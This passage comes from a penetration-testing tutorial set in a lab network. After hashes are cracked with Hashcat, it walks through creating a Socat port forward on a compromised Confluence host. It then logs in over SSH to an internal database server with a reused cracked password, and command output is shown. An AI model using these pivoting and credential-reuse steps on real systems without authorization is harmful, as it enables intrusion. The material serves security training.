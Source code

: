 ```
```

> Listing 13 - Hashcat having cracked the database\_admin, hr\_admin and rdp\_admin account hashes.

It appears that the password policy for this Confluence instance isn't very strong. After only a few minutes of cracking, Hashcat returns passwords for the _database\_admin_, _hr\_admin_ and _rdp\_admin_ users.

We might suspect that these passwords are reused in other places throughout the network. After some more enumeration of the internal network, we'll find PGDATABASE01 is also running an SSH server. Let's try these credentials against this SSH server. With our new port forwarding skill, we can create a port forward on CONFLUENCE01 that will allow us to SSH directly from our Kali machine to PGDATABASE01.

First, we need to kill the original Socat process listening on TCP port 2345. We'll then create a new port forward with Socat that will listen on TCP port 2222 and forward to TCP port 22 on PGDATABASE01.

```
confluence@confluence01:/opt/atlassian/confluence/bin$ socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22
</bin$ socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22 

```

> Listing 14 - Creating a new port forward with Socat to access the SSH service on PGDATABASE01.

With our new Socat port forward set up, our network setup will be configured much like the following diagram:

![[/ae6bb27852f848e8c26cbb2eb12443fb-PRAT2_1_4_PortForwardSocatSSH.png]]

Figure 4: Using Socat to open a port forward from CONFLUENCE01 to the SSH server on PGDATABASE01

There are only very minimal differences between this and the previous network setup. Instead of listening on 2345, we are listening on 2222. Instead of forwarding to TCP port 5432 on PGDATABASE01, we are forwarding to TCP port 22 on PGDATABASE01.

We'll then use our SSH client to connect to port 2222 on CONFLUENCE01, as though we are connecting directly to port 22 on PGDATABASE01. We can use the _database\_admin_ user, and the password we just cracked using Hashcat.

```
kali@kali:~$ ssh database_admin@192.168.50.63 -p2222
The authenticity of host '[192.168.50.63]:2222 ([192.168.50.63]:2222)' can't be established.
ED25519 key fingerprint is SHA256:3TRC1ZwtlQexLTS04hV3ZMbFn30lYFuQVQHjUqlYzJo.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.50.63]:2222' (ED25519) to the list of known hosts.
database_admin@192.168.50.63's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-122-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 18 Aug 2022 11:43:07 AM UTC

  System load:  0.1               Processes:               241
  Usage of /:   59.3% of 7.77GB   Users logged in:         1
  Memory usage: 16%               IPv4 address for ens192: 10.4.50.215
  Swap usage:   0%                IPv4 address for ens224: 172.16.50.215


0 updates can be applied immediately.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
```
